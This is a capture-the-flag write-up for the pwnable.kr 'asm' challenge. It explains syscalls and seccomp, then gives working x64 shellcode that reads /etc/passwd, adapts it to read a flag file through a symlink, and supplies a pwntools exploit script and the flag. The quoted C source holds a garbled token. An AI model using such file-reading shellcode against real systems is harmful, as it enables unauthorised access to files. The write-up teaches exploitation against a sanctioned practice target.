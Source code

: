 # asm

## Description

asm - 6 pt

> Mommy! I think I know how to make shellcodes <br>
> ssh asm@pwnable.kr -p2222 (pw: guest)

## Solution

### Background

#### Shellcodes

A shellcode is a set of instructions that can be executed by the processor. Shellcodes are often injected into a program to execute arbitrary code, such as opening a shell or reading a file. Most of times, the injection is done using a buffer overflow, and the execution of the shellcode is done by jumping to the address of the injectioned code.

#### System calls

A syscall is a way for a program to interact with the operating system, and request a service. For example, the syscall `open` will open a file, and the syscall `read` will read the content of a file. 

Syscalls are done by interrupting the processor, and passing control the kernel. The kernel will then execute the syscall, and return the result to the program. 

In practice, the program will call `int` with the right interrupt nubmer - so the interrupt handler will be the kernel. Then, the program will pass the syscall number in the `eax` register, and the arguments in the other registers. After that, the kernel will execute the syscall, and return the result in the `eax` register.

#### seccomp

Seccomp is a Linux kernel feature that allows to restrict the syscalls that a program can use. It is often used to prevent a program from executing arbitrary code, by only allowing a limited set of syscalls.

### Exploit

Logging into the server, we get the following files:

```bash
-rwxr-xr-x 1 root root 13704 Nov 29  2016 asm
-rw-r--r-- 1 root root  1793 Nov 29  2016 asm.c
-rw-r--r-- 1 root root   211 Nov 19  2016 readme
-rw-r--r-- 1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
```

The `asm.c` file contains the source code of the program, the `readme` file tells us the program runs with the right permissions on port `9026`, and the very long file is only there to inicate the name of the flag file.

Let's take a look at the source code:

```c

#define LENGTH 128

void sandbox(){
	scmp_		_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

It looks like the program takes a shellcode as input, and executes it. However, a seccomp filter is applied, and the program is only allowed to use the syscalls `open`, `read`, `write`, `exit` and `exit_group`.

Also, the program uses `chroot` to run in `/home/asm_pwn`, so we can't use symlinks in `/tmp` (or can we?).

Our goal is fairly simple: we need to make a shellcode that will open the flag file, read it, and print it to the screen using the `open`, `read` and `write` syscalls.

We can either write our own shellcode, or simply look one up online. The website [shell-storm](http://shell-storm.org/shellcode/) is a good place to look for shellcodes, and it seems like [this](https://shell-storm.org/shellcode/files/shellcode-878.html) `/etc/passwd` reader is a good starting point.

Here are the instructions:

```asm
_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
```

And this is the actual shellcode:
```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

As we've already stated, the above shellcode reads the `/etc/passwd` file. We need to modify it to read the flag file instead.

Before doing that, there are 2 observations we need to make here:

* the path of the file read by the shellcode is stored in the very last bytes, and is terminated by the `A` character - to avoid a null byte inside the shellcode.

* the program `xor`s the last byte of the path with `0x41` - to get that nullbyte back, and so if we change the length of the path, we need to change the offset of the `xor` instruction accordingly.

Having that in mind, a quick modification of the shellcode is to change the path to `/tmp/a/flag`. The length of this new path is the same as `/etc/passwd`, so we don't need to change the offset of the `xor` instruction:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41
```

By creating a symlink in `/tmp/a` to the flag file, we can read the flag file using the modified shellcode.

And so, the final exploit is:

```python
from pwn import *

# create a symlink in /tmp
ssh = ssh('asm', 'pwnable.kr', port=2222, password='guest')

ssh.mkdir('/tmp/a')
SSHPath('/tmp/a/flag', ssh=ssh).symlink_to('/home/asm_pwn/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

# connect to the server and send the shellcode
con = remote('pwnable.kr', 9026)

con.sendline('\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41')

con.interactive()
```

```
Mak1ng_shelLcodE_i5_veRy_eaSy
```
